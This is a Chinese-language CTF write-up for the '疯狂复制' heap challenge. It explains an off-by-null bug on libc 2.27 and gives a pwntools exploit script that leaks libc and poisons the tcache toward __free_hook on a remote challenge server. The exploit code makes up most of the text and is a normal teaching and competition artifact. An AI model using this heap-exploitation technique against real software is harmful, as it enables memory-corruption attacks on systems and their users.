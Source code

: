 ```python
```

## 疯狂复制-ucsc | FINISHED - 01

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130786.png)

经典菜单堆题,其中漏洞存在于edit:

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130787.png)

很明显的off\_by\_null,由于libc版本为2.27,并不会检查prev\_size vs size,所以简单利用offbynull重叠堆块,先泄露libc再劫持\_\_free\_hook

```python
from pwn import *
#io=process('./pwn')
io=remote("39.107.58.236",43343)
libc=ELF('./libc-2.27.so')
context.log_level='debug'
def ch(Id):
    io.sendlineafter(b':',str(Id).encode())
def add(Id,size):
    ch(1)
    io.sendlineafter(b"Index: ",str(Id).encode())
    io.sendlineafter(b"Size ",str(size).encode())
def edit(Id,payload):
    ch(2)
    io.sendlineafter(b"Index: ",str(Id).encode())
    io.sendafter(b"Content: ",payload)
def show(Id):
    ch(3)
    io.sendlineafter(b"Index: ",str(Id).encode())
def free(Id):
    ch(4)
    io.sendlineafter(b"Index: ",str(Id).encode())
def bug():
    gdb.attach(io)
for i in range(8):
    add(i,0xf8)
add(8,0x38)
add(9,0xf8)
add(10,0x30)
for i in range(7):
    free(6-i)
free(7)
edit(8,b'\x00'*0x30+p64(0x140)+b'\n')
free(9)
for i in range(7):
    add(i,0xf0)
add(7,0xf0)
show(8)
io.recvuntil(b'Content: ')
base=u64(io.recv(6)+b'\x00\x00')-0x3ebca0
success("base=>"+str(hex(base)))
#-----------------------------------------------------------------------------------------------
for i in range(8):
    free(i)
add(0,0xe0)
add(1,0xe0)
edit(1,p64(0x100)+p64(0x41)+b'\n')
free(8)
fhook=base+libc.sym.__free_hook
edit(1,p64(0x100)+p64(0x41)+p64(fhook-8)+b'\n')
add(2,0x30)
```
